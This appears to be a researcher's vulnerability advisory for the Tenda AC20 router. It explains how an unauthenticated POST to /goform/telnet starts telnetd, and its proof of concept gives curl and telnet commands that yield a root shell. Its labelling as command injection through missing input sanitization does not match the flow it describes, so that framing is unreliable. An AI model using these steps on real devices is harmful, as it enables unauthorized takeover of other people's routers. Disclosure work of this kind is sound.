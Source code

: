 # Tenda AC20 telnet TendaTelnet OS Command Injection

## Summary

A remote command execution vulnerability exists in the Tenda AC20 router (firmware V16.03.08.12), allowing attackers to activate the telnet service via a specific HTTP endpoint. The vulnerability resides in the `TendaTelnet` function, which directly executes system commands to start the telnet service without proper input sanitization, enabling attackers to gain interactive shell access to the router and execute arbitrary commands.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: https://www.tenda.com.cn/material/show/3264

*   **Component**: `/goform/telnet` (inferred from `websFormDefine("telnet", TendaTelnet);` )

*   **Vulnerability Type**: Command Execution via Service Activation (CWE-78)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability stems from the `TendaTelnet` function, which is bound to the `/goform/telnet` endpoint via `websFormDefine("telnet", TendaTelnet);`. This function is designed to control the telnet service of the router but lacks essential input sanitization for system commands. The function's execution flow directly triggers system commands to enable and start the telnet service, allowing attackers to exploit it via a crafted HTTP request.

Key operations in the `TendaTelnet` function are as follows:



1.  **Parameter Retrieval**: The function calls `GetValue("lan.ip", v17)` to obtain the router's LAN IP address, stored in the `v17` buffer.

2.  **Console Activation**: It enables the system console via `console_control(1)` and sets the `console_switch` configuration to `enable` using `SetValue`, followed by committing the configuration with `CommitCfm()`.

3.  **Telnet Service Management**:

*   It first terminates any existing telnet service instances with `system("killall -9 telnetd")`.

*   It then starts a new telnet service bound to the retrieved LAN IP via `doSystemCmd("telnetd -b %s &", (const char *)v17)`, where `%s` is replaced with the LAN IP from `v17`.

4.  **Response**: The function returns a success message "load telnetd success." via `websWrite` with a 200 HTTP status code.

Critical issues in this flow:

*   Activation of telnetd allows attackers to connect to the router's telnet service and execute arbitrary system commands with root privileges (typical for router environments).
*   ![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## PoC: Exploit Steps

### 1. Activate Telnet Service

Send a POST request to the `/goform/telnet` endpoint to trigger the `TendaTelnet` function:


```
curl -i -X POST http://192.168.xxx.xxx/goform/telnet --http0.9
```
then use ctrl+c to quit，the you can start the telnet service of this router:
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


### 2. Connect via Telnet

```
telnet 192.168.xxx.xxx 80
```

Successful connection will provide an interactive shell:

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
